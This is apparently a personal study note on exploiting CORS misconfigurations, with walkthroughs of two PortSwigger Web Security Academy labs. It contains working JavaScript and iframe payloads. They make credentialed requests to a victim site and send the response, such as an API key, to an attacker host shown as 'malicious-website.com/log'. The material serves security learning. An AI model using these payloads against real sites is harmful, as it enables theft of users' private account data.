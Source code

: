 # CORS Notes

[Portswigger](https://portswigger.net/web-security/cors#what-is-cors-cross-origin-resource-sharing)

## Methodology

Example script to steal info from a user

```
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
	location='//malicious-website.com/log?key='+this.responseText;
};
```

Using that script in an iframe for a whitelisted null in the origin value:

```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='malicious-website.com/log?key='+this.responseText;
};
</script>"></iframe>
```


## Labs Walkthrough

### CORS Vulnerability with Basic Origin Reflection Attack

- log into application and review the request to /accountDetails
- notice the usage of the `Access-Control-Allow-Origin` header, suggesting the usage of CORS
- ![image](https://github.com/user-attachments/assets/88d4be40-617a-442d-b257-20e37916e5e5)
- - we can validate it reflects the cors by adding an arbitrary Origin header with anything and view the response `Access-Control-Allow-Origin` header having our arbitrary value reflected
- ![image](https://github.com/user-attachments/assets/282744d5-6db9-4474-ad93-66a449f30432)
- create the request by using the /accountDetails as the path for sensitive data and set location to just /log

```
<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','0aab0073041f4fa4815f39dc00ce00a4.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='/log?key='+this.responseText;
};
</script>
```

- after storing and delivering to the victim, go to access log to find the api key to submit

### CORS Vulnerability with trusted null origin

- again login with creds and view the login and notice the `/accountDetails` page
- you can add null in this request to validate that it does accept null and `Access-Control-Allow-Credentials` is set to true
- ![image](https://github.com/user-attachments/assets/8ee159ca-75a2-4259-ab7d-9a4f12440cf1)
- now craft exploit to abuse, using sample from methodology above

```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','0a74004304f82b2983e2d8ec00d8009c.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='/log?key='+this.responseText;
};
</script>"></iframe>
```

- 









